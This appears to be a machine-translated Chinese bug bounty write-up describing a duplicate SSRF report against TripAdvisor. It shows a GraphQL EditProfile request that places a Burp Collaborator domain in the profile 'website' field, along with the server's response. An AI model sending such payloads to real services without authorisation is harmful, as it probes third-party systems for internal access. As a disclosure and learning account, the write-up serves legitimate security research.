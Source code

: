 # 服务器端请求伪造(SSRF)

> 原文：<https://infosecwriteups.com/server-side-request-forgery-ssrf-8e0fa290f7e6?source=collection_archive---------2----------------------->

## 破坏访问控制(BAC)>服务器端请求伪造(SSRF)

![](img/3f8978fce729d8d2302ee9c0e20afb7d.png)

照片由 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的 [Justaf Abduh](https://unsplash.com/@jabacule?utm_source=medium&utm_medium=referral) 拍摄

## 什么是 SSRF？！

服务器端请求伪造( **SSRF** )是一种利用漏洞攻击防火墙后内部系统，从外部网络无法访问。SSRF 将访问内部运行的服务，如 SSH、本地主机、FTP 等。一个 SSRF 场景是强制服务器连接到组织基础设施内的内部专用服务。

## 简介:

在测试猫途鹰的漏洞和缺陷时，我发现它容易受到 SSRF 的攻击。我使用 Burp Suite 功能协作器发现了这个漏洞。*什么是打嗝合作者*？Burp Collaborator 是一种网络服务，Burp Suite 使用它来帮助发现多种漏洞。**例如**，一些基于注入的漏洞可以使用有效载荷进行检测，当成功注入时，有效载荷会触发与外部系统的交互。

## **我是这样做的:**

1.  打开“打嗝套件”>“打嗝菜单”>“打嗝合作者客户端”,然后选择“打嗝合作者客户端”
2.  单击显示“复制到剪贴板”的位置，这将复制利用 web 应用程序所需的有效负载，例如:` jhggfwo 94 Wu 094 CTR trstwrvterwt 0 tvwg . burpcollaborator . net '

3.将 Collaborator 客户端有效负载粘贴到网站字段，如下所示，并转发请求。

4.使用“立即轮询”功能检索有效负载产生的任何网络交互的详细信息。

5.等待奇迹发生。

## Http 请求:

```
POST /data/graphql/batched HTTP/1.1
Host: www.tripadvisor.com
User-Agent: Mozilla/5.0 
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Origin: https://www.tripadvisor.com
Content-Length: 1520
Connection: close[{"operationName":"EditProfile","variables":{"userId":"9A9A11C7013E070C233A82C19CC97D78","displayName":null,"username":null,"bio":null,"hometown":null,"website":"**e3i57wj14co4lyphm5kwqx8xjoped3.burpcollaborator.net**","acceptedToU":true}]
```

## Http 响应:

```
RESPONSE
HTTP/1.1 200 OK
Server: Apache
Pragma: no-cache
P3P: CP="NOI CURa ADMa DEVa TAIa OUR BUS IND UNI COM NAV INT DSP COR CAO PSA IDC ADM DEVi TAIi PSD IVAi IVDi CONi HIS CNT"
Cache-Control: no-cache, no-store, must-revalidate
Timing-Allow-Origin: https://www.tripadvisor.com
Vary: Accept-Encoding
Content-Length: 2089
Content-Type: application/json
Date: Mon, 21 Sep 2020 17:54:47 GMT
Connection: close

[{"data":{"updateMemberProfile":{"statuses":["OK"],"memberProfile":{"userId":"9A9A11C70C97D78","avatar":{"id":********,"photoSizes":[{"url":"https://dynamic-media-cdn.tripadvisor.com/media/photo-o/1a/f6/e7/99/default-avatar-2020-57.jpg?w=100&h=100&s=1","width":0,"height":0,"__typename":"PhotoSize"},{"url":"https://media-cdn.tripadvisor.com/media/photo-t/99/default-avatar-2021-75.jpg"}]
```

## 合作者回应:

![](img/c209aba4a4738e599526c68dde8d15f7.png)

## 该报告:

本文有趣的部分来了。

![](img/c554cad91ffd3cfa809812366d06fe0a.png)![](img/f9a76fe3832a56c91a5af790eaca0ad8.png)

我一看到那些日志，就告诉自己“是的，我发财了！”。呃，不太好。通过阅读他们的反应，你可以知道我高兴得太早了。几年前有人送来了同样的报告。他们的反应让我措手不及，因为这不是一个容易的发现。只有仔细检查 web 应用程序的每一个响应/请求，以便找到一个字段来添加您的有效负载并希望得到响应，才有可能利用该漏洞。

## 奖励:

![](img/0314e2ae42bfc48ae13a4abd975abf79.png)

报酬

看上面的照片，你可以看到这个报告的结果。老实说，得到 ***1* 点**作为“奖励”并不是我发这份报告的初衷。但是有总比没有好，不是吗？！

## **总结**

虽然我的工作没有得到任何奖励，但从中得到了一些好的东西，经验。现在，我知道了要利用哪些端点，以及利用哪些端点或利用哪些端点。永远不要让这种结果让你气馁。重复的意思是你做了有价值的事情，你只是在别人之后做了，但是你做了。